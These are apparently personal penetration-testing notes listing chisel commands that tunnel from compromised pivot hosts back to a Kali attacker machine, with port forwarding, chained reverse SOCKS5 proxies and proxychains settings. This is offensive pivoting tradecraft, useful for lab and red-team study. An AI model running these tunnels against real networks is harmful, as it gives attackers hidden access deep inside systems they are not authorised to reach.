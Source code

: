 chisel

172.16.40.5
./chisel_amd64 server -p 5555 --reverse &
10.90.60.80
./chisel client 172.16.40.5:5555 R:socks &
************************************************************
SPECIFIC PORT FORWARDING
1Pivot 10.90.60.80:
chisel server -p 8888 -reverse
2Pivot 10.185.10.34
chisel client 10.90.60.80:8888 R:9001:10.185.11.127:80
kali 172.16.40.5
chisel server -p 8000 -reverse
1Pivot 10.90.60.80
chisel client 172.16.40.5:8000 R:8001:127.0.0.1:9001
************************************************************
************************************************************
DYNAMIC PORT FORWARDING
Kali - 172.16.40.5
./chisel_amd64 server --socks5 -p 9001 --reverse &
1Pivot - 10.90.60.80
./chisel_386 client 172.16.40.5:9001 R:9999:socks &
./chisel_386 server --socks5 -p 9002 --reverse &
2Pivot - 10.185.10.34
.\chisel.exe client 10.90.60.80:9002 R:9998:socks
Kali
Modify proxychains to have the following:
socks5 127.0.0.1 9999
socks5 127.0.0.1 9998
************************************************************

